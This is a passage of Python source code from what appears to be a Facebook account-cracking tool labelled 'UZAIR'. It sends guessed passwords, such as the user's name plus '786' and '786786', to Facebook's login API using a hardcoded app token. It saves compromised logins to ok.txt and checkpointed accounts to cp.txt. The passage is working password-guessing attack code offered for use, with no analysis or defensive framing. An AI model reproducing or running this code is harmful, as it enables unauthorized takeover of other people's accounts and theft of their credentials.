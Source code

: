 		                        cp=open("cp.txt","a")

		                        cp.write(uid+" | "+pass3+"\n")

		                        cp.close()

		                        cps.append(uid)

		                    else:

		                        if 'access_token' in d:

		                            print(" \x1b[1;97m[UZAIR-OK] "+uid+" | "+pass3+"\x1b[1;0m")

		                            ok=open("ok.txt","a")

		                            ok.write(uid+" | "+pass3+"\n")

		                            ok.close()

		                            oks.append(uid)

		                        else:

		                            pass4=name+"786"

		                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text

		                            d=json.loads(q)

		                            if 'www.facebook.com' in d['error_msg']:

		                                print("\x1b[1;93m[UZAIR-CP] "+uid+" | "+pass4)

		                                cp=open("cp.txt","a")

		                                cp.write(uid+" | "+pass4+"\n")

		                                cp.close()

		                                cps.append(uid)

		                            else:

		                                if 'access_token' in d:

		                                    print("\x1b[1;97m[UZAIR-OK] "+uid+" | "+pass4+"\x1b[1;0m")

		                                    ok=open("ok.txt","a")

		                                    ok.write(uid+" | "+pass4+"\n")

		                                    ok.close()

		                                    oks.append(uid)

		                                else:

		                                    pass5="786786"

		                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
